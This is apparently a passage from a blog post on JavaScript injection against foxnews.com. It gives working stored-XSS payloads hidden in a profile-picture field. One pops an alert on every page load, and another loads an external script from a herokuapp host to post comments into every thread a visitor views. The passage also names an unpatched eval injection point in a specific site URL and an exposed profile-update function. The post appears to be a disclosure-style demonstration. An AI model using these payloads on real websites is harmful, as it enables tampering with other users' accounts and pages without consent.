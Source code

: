 So that your profile picture would become the following:

    <img src=”http://some-domain.com/some-image.png"><script>alert('hello')</script>

And “hello” would be alerted on every page load.

### 4. Post a random comment to every comment thread

To do a bit more than print “hello” on every page load, you could instead post a random comment (or a specific comment) to every comment thread you visit by setting your profile picture to the following:

    http://some-domain.com/some-image.png"><script>var s = document.createElement('script'); s.addEventListener('load', comment); s.src = '[**<script to post comment>**'+new](https://localhost-test-fun.herokuapp.com/comment.js?'+new) Date(); document.body.appendChild(s); </script>

I’ll leave ***script to post comment*** as an exercise for the reader.

### Example

As an example you could build a little site running locally or a domain with *localhost* in the name to show the logged in user’s information like the following and change values.

![](https://cdn-images-1.medium.com/max/2728/0*4gHNMG3llcT1AXFv)

Then you’d get something like this on every page load. Useful huh?

![](https://cdn-images-1.medium.com/max/3200/0*fivs684q1JGIa_Ur)

![](https://cdn-images-1.medium.com/max/2560/0*I0B2F3jct0d14e4e)

*** I’ve notified foxnews.com about this and haven’t heard back.

## #3: Changing your profile picture

This is a follow-on to [t](https://medium.com/front-end-hacking/js-injection-example-e07ff4959db9)he above article about JS injection in foxnews.com. That article pointed out that foxnews.com has a couple vulnerabilities:

1. You can inject JS via[ xdcomm.html](http://www.foxnews.com/static/v/all/html/xdcomm.html)

1. They expose facebook your credentials in plain text

They’ve patch up (2), but not (1), which means you can execute arbitrary code, as long as that code fits with the 2038 character limit of URLs. To summarize (1), anything between the last ‘;’ and ‘:’ will get eval’ed in the URL[ http://www.foxnews.com/static/v/all/html/xdcomm.html#top;](http://www.foxnews.com/static/v/all/html/xdcomm.html#top;C=String.fromCharCode%2858%29,Q=String.fromCharCode%2839%29,d=document,cr=function%28e%29%7Breturn)**<CODE>**:. They also expose a function attached to the window, *setUserProfile,* which updates the user’s profile.

![](https://cdn-images-1.medium.com/max/2152/0*IWcKDbJv4EABLxhQ)

That’s what we’ll call in order to create a link that will change your foxnews.com profile to Kermit the Frog.

